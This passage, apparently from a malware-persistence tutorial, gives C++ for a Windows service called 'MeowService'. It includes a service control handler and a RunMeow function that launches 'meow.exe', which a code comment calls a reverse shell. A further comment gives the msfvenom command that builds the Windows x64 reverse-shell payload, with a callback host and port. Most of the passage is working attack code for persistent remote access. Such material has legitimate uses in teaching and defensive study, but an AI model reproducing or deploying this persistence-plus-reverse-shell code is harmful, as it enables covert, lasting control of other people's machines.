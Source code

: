 The Service Control Handler was registered in your Service Main Entry point. Each service must have a handler to handle control requests from the SCM:
```cpp
void ControlHandler(DWORD request) {
  switch(request) {
    case SERVICE_CONTROL_STOP:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    case SERVICE_CONTROL_SHUTDOWN:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.

Also, create function with *evil* logic:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```
